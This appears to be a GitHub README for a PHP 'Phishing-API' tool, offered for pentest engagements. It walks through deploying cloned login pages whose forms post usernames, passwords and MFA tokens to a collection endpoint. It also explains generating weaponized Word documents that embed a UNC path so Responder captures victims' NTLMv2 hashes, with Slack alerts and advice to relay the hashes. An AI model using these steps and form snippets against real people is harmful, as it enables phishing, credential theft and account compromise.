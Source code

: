 # Phishing-API
This API has two main features.  One allows you to easily deploy cloned landing pages for credential stealing and the other feature is weaponized Word doc creation.  Both are integrated into Slack for real-time alerting.  There's a free service I'm running with a similiar code-base at https://phishapi.com.  


## Update

I've added support for MS Word document generation.  Now, simply go to the API to create your payload, email it off, and wait for the Slack notification.  It automatically includes a UNC path back as well so if you're running Responder in a background session you can capture NTLMv2 hashes and be notified via Slack!  Support for weaponizing your own Word doc templates is built in.  Just upload an existing doc and download it again to hook it.  You can also choose to use Basic Auth which prompts the user for credentials, just like Phishery does!


# To Setup :

1) Import the DB SQL Dump Schema to a new MySQL Instance

2) Host the PHP from a web service (Apache, Nginx, IIS, etc)

3) Configure dbconfig.php and index.php variables

4) Limit Access to the "Results" Directory (Apache's Basic Auth is Recommended)

5) Use SSL and a Domain for the Hosted API (Configure DNS MASKED Forwarding Instead of an A Name Record for Best Results)



# To Use the API for Capturing Credentials from Fake Sites : 

Rapid & Easy Deployment API for Phishing During Pentest Engagements.  Output to MySQL/Web Table &amp; Slack Bot.  Supports BEEF Hooking & HaveIBeenPwned!


1) Point your HTML Form to https://YOUR-API-HERE

	`<FORM METHOD="POST" ACTION="https://YOUR-API-HERE">`

2)  Make sure the following authentication fields are set

	`<INPUT NAME="username">`
	
	`<INPUT NAME="password">`
	
	(OPTIONAL MFA FIELD)  `<INPUT NAME="token">`
	
3) Add hidden input fields for the name of the project and the URL the users should be redirected to after submitting their credentials to you (Recommend Legitimate Login Location - For Best Results Use a Clickjacking Vulnerable URL That Allows iFRAMEs)

	`<INPUT NAME="project" VALUE="My_Project_Here" TYPE="hidden">`
	
	`<INPUT NAME="redirect" VALUE="https://site_to_redirect_to" TYPE="hidden">`
	
4) Optionally include hidden input fields for altering the Slack bot's behavior (Name and Emoji)

	`<INPUT NAME="slackbotname" VALUE="SuckerBot" TYPE="hidden">`
	
	`<INPUT NAME="slackemoji" VALUE=":see_no_evil:" TYPE="hidden">`
	
5) Sit back and wait for the Slack bot to notify you.  When you want to see the credentials visit https://YOUR-API-HERE/results using your basic auth credentials


![Notification to Slack Channel](https://i.imgur.com/L8yYRMQ.png)

                  
            
![View Captured Credentials via Web](https://i.imgur.com/2ayiRRW.png)


# To Use the API for Generating Word Doc Payloads :

1) Modify /phishingdocs/index.php to include your Slack Webhook parameters

2) Create /var/www/uploads Path and make sure your web user has sudoers access

3) Browse out to YOUR_URL.com/phishingdocs to generate your DOCX

4) Optionally set up Responder in a background process and run `phishinghashes.sh` every minute or so with cron

5) Set up your php.ini to allow uploads of at least 15MB and enable browsecap.ini for parsing UserAgent strings, otherwise some functionality may be limited.  

6) Email your doc and wait for the Slack alerts!

**Bonus points if you use your docs as honeypot bait! :)**



![Payload Generation](https://i.imgur.com/LW4BUjN.png)

                  
            
	    
![Downloading and Openinig Doc](https://i.imgur.com/Sx1b1Z5.png)




![Downloading and Openinig Doc w Auth](https://i.imgur.com/sw8JWQE.png)

                  

	    
![Phishing Doc Slack Alert](https://i.imgur.com/FXdDm6t.png)




![Phishing Doc Slack Alert 2](https://i.imgur.com/ku6UTNI.png)




![Phishing Doc Results](https://i.imgur.com/JJJWTnZ.png)




![HashBot](https://i.imgur.com/qZFGmXA.png)




Currently, I'm running Responder in a Screen session with `phishinghashes.sh` scheduled via Cron to run every minute to pick up hashes, correlate phished users, and alert via Slack.  You can also relay those hashes with another tool if you'd like to take things even further.  Enjoy! :)
